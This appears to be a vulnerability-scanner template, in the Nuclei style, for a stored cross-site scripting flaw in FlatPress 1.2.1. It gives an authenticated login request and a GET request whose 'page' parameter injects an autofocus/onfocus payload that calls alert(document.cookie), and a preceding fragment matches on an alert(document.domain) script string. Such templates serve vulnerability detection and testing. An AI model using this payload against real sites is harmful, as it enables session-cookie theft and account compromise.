 **Type - dsl**
- dsl
    1. contains(all_headers_2, "text/html")
    2. status_code_2 == 200
    3. contains(body_2, 'Result against \"\<script>alert(document.domain)\</script>\" keyword')
- condition - and

---
# FlatPress 1.2.1 - Stored Cross-Site Scripting
## Description
- FlatPress 1.2.1 contains a stored cross-site scripting vulnerability that allows for arbitrary execution of JavaScript commands through blog content. An attacker can steal cookie-based authentication credentials and launch other attacks. Note: this is similar to CVE-2021-41432, however this attack uses the "page" parameter.

- severity - medium
- tags - flatpress,xss,authenticated,oss
## Requests
### Step - 1
```
POST /login.php HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykGJmx9vKsePrMkVp

------WebKitFormBoundarykGJmx9vKsePrMkVp
Content-Disposition: form-data; name="user"

{{username}}
------WebKitFormBoundarykGJmx9vKsePrMkVp
Content-Disposition: form-data; name="pass"

{{password}}
------WebKitFormBoundarykGJmx9vKsePrMkVp
Content-Disposition: form-data; name="submit"

Login
------WebKitFormBoundarykGJmx9vKsePrMkVp--

```
### Step - 2
```
GET /admin.php?p=static&action=write&page=%22onfocus%3d%22alert%28document.cookie%29%22autofocus%3d%22 HTTP/1.1
Host: {{Hostname}}

```
### Matchers
